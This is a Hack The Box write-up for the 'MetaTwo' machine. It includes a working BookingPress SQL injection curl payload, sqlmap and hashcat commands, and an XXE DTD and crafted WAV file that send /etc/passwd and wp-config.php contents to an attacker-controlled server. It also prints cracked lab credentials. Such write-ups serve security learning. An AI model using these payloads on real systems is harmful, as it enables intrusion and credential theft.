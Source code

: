 # [MetaTwo](https://app.hackthebox.com/machines/metatwo)

```bash
nmap -p- --min-rate 10000 10.10.11.186 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p21,22,80 10.10.11.186 -Pn 
```

![alt text](img/image-4.png)

From nmap scan result, I see that this ip address is resolved into `metapress.htb` domain name, that's why I add this into `/etc/hosts` file for resolving purposes.



I just check web application from `Tech` stack and see that this is `Wordpress` website.

![alt text](img/image-1.png)


Let's use `wpscan` tool to scan this website.
```bash
wpscan --url http://metapress.htb/ 
```

![alt text](img/image-2.png)

I know that version of `Wordpress` is `5.6.2`.

I also know that `BookingPress` plugin is vulnerable to `Unauthenticated SQLI` vulnerability.


I use this exploit from by referencing [this](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/).


Payload for injection=>
```bash
curl -i "http://metapress.htb/wp-admin/admin-ajax.php" --data "action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -"
```



As you see, I can inject malicious `SQLI` payloads to `total_service` parameter, I can use `sqlmap` to dump all database.
```bash
sqlmap -r post.req --level 5 --risk 3 -p "total_service" 
```


From here, I dump `Wordpress` users data from `blog` database and `wp_users` table.

```bash
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

Let's crack these hashes via `hashcat` command.
```bash
hashcat -m 400 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-5.png)

manager: partylikearockstar


Let's check this credentials to login into admin page of `Wordpress`.


I am already on `Admin Dashboard`.

![alt text](img/image-6.png)


Then I find `XXE` attack whose CVE-id is [CVE-2021-29447](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/).


Now, I do `External XXE attack` which takes malicious `.dtd` file from attacker'server.


First, we need to create malicious `.dtd` file.
```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.18:8080/?p=%file;'>" >
```

Second, we need to create `.wav` file as below.
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.18:8080/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

While we upload `payload.wav` file into here.

![alt text](img/image-7.png)


We need open http.server.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-8.png)



I can see result via this `base64` decoding.

![alt text](img/image-9.png)


Let's change the filename via `wp-config.php`, payload "../wp-config.php" and see resutl.


I take credentials from this file as below.

![alt text](img/image-10.png)

For database credentials:

blog: 635Aq@TdqrCwXFUZ

For FTP credentials:

metapress.htb:  9NYS_ii@FyL_p5M2NvJ


Let's connect into `FTP` service.

![alt text](img/image-11.png)


I take `send_email.php` file from `mailer` directory.

![alt text](img/image-12.png)


I read credentials from here.

![alt text](img/image-13.png)


jnelson@metapress.htb:  Cb4_JmWM8zUZWMu@Ys


Let's connect into machine via `ssh` by using this credentials.

user.txt

![alt text](img/image-14.png)


For `Privilege Escalation`, I just make enumeration on machine.

On user's home directory, I found `.passpie` directory which contains PGP keys for two users being `root` user also.

File is called `.keys`.

![alt text](img/image-15.png)

I download this sensitive file into my machine via http server.

![alt text](img/image-16.png)

![alt text](img/image-17.png)


After getting this file, I need to use `gpg2john` to crack.

![alt text](img/image-18.png)

I cracked via `john` command.
```bash
john --wordlist=/Desktop/rockyou.txt crackthehash
```

![alt text](img/image-19.png)


Let's use `blink182` password to dump `passpie` passwords.

```bash
passpie export output.txt
```

![alt text](img/image-20.png)


root: p7qfAZt4_A1xo_0x


root.txt

![alt text](img/image-21.png)

